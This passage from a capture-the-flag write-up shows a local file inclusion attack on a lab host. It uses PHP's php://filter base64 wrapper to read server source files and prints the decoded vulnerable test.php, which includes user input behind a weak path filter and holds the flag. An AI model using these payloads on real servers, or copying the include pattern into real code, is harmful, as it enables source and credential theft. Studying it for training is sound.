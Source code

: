 Blog on PHP filters --> [http://kaoticcreations.blogspot.com/2011/12/lfi-tip-how-to-read-source-code-using.html](http://kaoticcreations.blogspot.com/2011/12/lfi-tip-how-to-read-source-code-using.html)

The hint says to look at the source code, so we can use the `php://filter/convert.base64-encode/resource` php filter to systematically request for php files from the server in base64 format. We can see from the source code a call is made to view the "mrrobot.php" file. We will view this file 1st.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php

# outputs
 PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==
 # save it in a .txt file and decode it
```
{% endcode %}

<figure><img src=".gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Now lets view the `test.php` fiel.

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

# we save it to a test.txt file and decode it.

<!DOCTYPE HTML>
<html>
<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>
</html>
```
{% endcode %}
